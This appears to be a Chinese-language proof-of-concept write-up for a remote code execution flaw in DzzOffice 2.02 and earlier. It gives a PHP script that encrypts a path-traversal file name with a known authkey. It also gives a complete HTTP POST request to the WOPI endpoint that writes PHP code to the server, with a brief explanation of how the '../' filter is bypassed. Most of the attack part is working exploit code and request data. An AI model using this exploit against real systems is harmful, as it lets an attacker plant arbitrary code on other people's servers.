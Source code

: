 # DzzOffice <= 2.02 RCE
## 环境安装

源代码：

https://github.com/zyx0814/dzzoffice/releases/

![](resource/DzzOffice-<=-2.02RCE/media/1.png)

## 利用前提

首先需要获取到authkey  这个可以通过爆破或者其他的方式获取到具体的这个请看文章

我现在的环境的key为：3090dfHwzmw9lsC3

在网上找了一下加密的脚本

```php
<?php 
function authcode_config($string,$key, $operation = 'DECODE', $expiry = 0)
{
$ckey_length = 4;
$key = md5($key);
$keya = md5(substr($key, 0, 16));
$keyb = md5(substr($key, 16, 16));
$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

$cryptkey = $keya.md5($keya.$keyc);
$key_length = strlen($cryptkey);

$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i <= 255; $i++) {
$rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i < 256; $i++) {
$j = ($j + $box[$i] + $rndkey[$i]) % 256;
$tmp = $box[$i];
$box[$i] = $box[$j];
$box[$j] = $tmp;
}

for($a = $j = $i = 0; $i < $string_length; $i++) {
$a = ($a + 1) % 256;
$j = ($j + $box[$a]) % 256;
$tmp = $box[$a];
$box[$a] = $box[$j];
$box[$j] = $tmp;
$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
return substr($result, 26);
} else {
return '';
}
} else {
return $keyc.str_replace('=', '', base64_encode($result));
}
}

echo base64_encode(authcode_config("disk::..././..././..././shell.php",md5('3090dfHwzmw9lsC3'),'ENCODE'));
```

输出

![](resource/DzzOffice-<=-2.02RCE/media/2.png)

然后构造包：

```
POST /core/api/wopi/index.php?access_token=1&action=contents&path=ZmM0OWp3bDgxbDE3WlhocFlCVUl4ZDFvRkNYeDRVaGtQbklJYlVSUjV2VjRzLzBwUkJ0Y051ZHl4QzVITFlvN205cENqZktDY1lyNHRQQ0pWblU= HTTP/1.1
Host: word.com
Content-Length: 18
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://word.com
Referer: http://word.com/user.php?mod=login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?php phpinfo();?>
```

![](resource/DzzOffice-<=-2.02RCE/media/3.png)

对于这个漏洞怎么产生的，具体的可以看看代码。

大概的流程是验证这个path 可用性。然后过滤了../  \n \r 

通过…/./ 绕过。到了写文件的方法。file_put_contents 两个参数都是可控的。就直接写入文件了
